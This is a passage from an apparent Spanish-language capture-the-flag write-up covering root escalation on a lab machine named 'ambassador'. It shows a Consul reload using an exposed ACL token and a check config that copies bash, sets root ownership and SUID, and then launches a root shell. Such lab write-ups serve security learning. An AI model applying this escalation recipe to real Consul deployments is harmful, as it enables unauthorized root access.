 Esta verificación de script ahora tocará /tmp/test-test como raíz. vim lo usara para escribir eso como config.d/test.hcl. y recargamos consul para actualizar la configuración: 

- developer@ambassador:/etc/consul.d$ CONSUL_HTTP_TOKEN='bb03b43b-1d81-d62b-24b5-39540ee469b5' consul reload

Configuration reload triggered
Para obtener un shell, actualizaré el archivo de script de verificación para incluir tres comprobaciones: 

```
checks = [
  {
    id = "test-1"
    name = "copy bash"
    args = ["cp", "/bin/bash", "/tmp/test"]
    interval = "60s"
  },
  {
    id = "test-2"
    name = "make it root"
    args = ["/usr/bin/chown", "root:root", "/tmp/test"]
    interval = "60s"
  },
  {
    id = "test-3"
    name = "suid bash"
    args = ["/usr/bin/chmod", "4777", "/tmp/test"]
    interval = "60s"
  }
]
```
Esto copiará basha /tmp/test, asegúrese de que sea propiedad de root y luego conviértalo en SetUID. Después de recargar el cónsul, el script se ejecuta y funciona: 
lanzamos 

- developer@ambassador:~$ /tmp/test -p

y somos root.

Algunos de los writeups en esta página, pueden tener contenido de otras páginas o tener muy pocas imágenes, esto 
debido a que en algunas de las máquinas que realice, no tome los apuntes o no tome capturas de pantalla, así que he decidido buscar varios writeups
y agregar lo que esté mejor explicado en cada uno para plasmarlo aquí, también si encuentra faltas de ortografía 
o cualquier error, Puedes contactarme a mi correo.
 
